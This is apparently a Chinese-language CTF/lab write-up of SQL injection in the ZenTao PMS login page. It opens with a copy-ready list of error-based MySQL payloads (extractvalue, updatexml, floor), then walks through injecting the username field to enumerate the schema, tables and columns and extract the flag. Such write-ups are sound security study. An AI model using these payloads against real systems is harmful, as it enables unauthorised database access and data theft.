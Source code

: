 ```yaml
---
title: "禅道 PMS 用户登录存在 SQL 注入"
date: 2024-02-19
description: "登录页面用户名处输入恶意语句，抓包可以看到利用语法报错外带的数据库信息"
tags: ["SQL 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


## 语法报错

下述 payload 可以直接复制使用。

### extractvalue()

    1' and extractvalue(1,concat(0x5c,0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)) and '1'='1

### updatexml()

    1' and updatexml(1,concat(0x5c,0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1) and '1'='1

### floor()

    1' and (select 1 from (select count(*),concat((select schema_name from information_schema.schemata limit 0,1),0x2b,floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1

## 攻击流程

打开靶场看到如下页面。在输入随机用户名密码之后会出现弹窗，告诉我们密码有误。但是输入单引号之后，页面没有任何变化。没有出现弹窗说明单引号起作用了，这提示我们存在 sql 注入点。我们用 burp 抓包发现虽然浏览器里面的页面没有显示报错，但是 burp 里面可以看到语法报错。后面走走流程就可以拿到 flag。

![sqli6](/images/sqli1/sqli6-3.png)

构造如下 payload。

    1' and extractvalue(1,concat(0x5c,0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)) and '1'='1

    1' and extractvalue(1,concat(0x5c,0x7e,(select table_name from information_schema.tables where table_schema='zentao' limit 0,1),0x7e)) and '1'='1

    1' and extractvalue(1,concat(0x5c,0x7e,(select column_name from information_schema.columns where table_schema='zentao' and table_name='flag' limit 0,1),0x7e)) and '1'='1

    1' and extractvalue(1,concat(0x5c,0x7e,(select flag from zentao.flag),0x7e)) and '1'='1

最终拿到 flag=ywaq{sql-ywaqnb-bczr}。上述 payload 效果如下。

![sqli6](/images/sqli1/sqli6-0.png)

![sqli6](/images/sqli1/sqli6-1.png)

![sqli6](/images/sqli1/sqli6-2.png)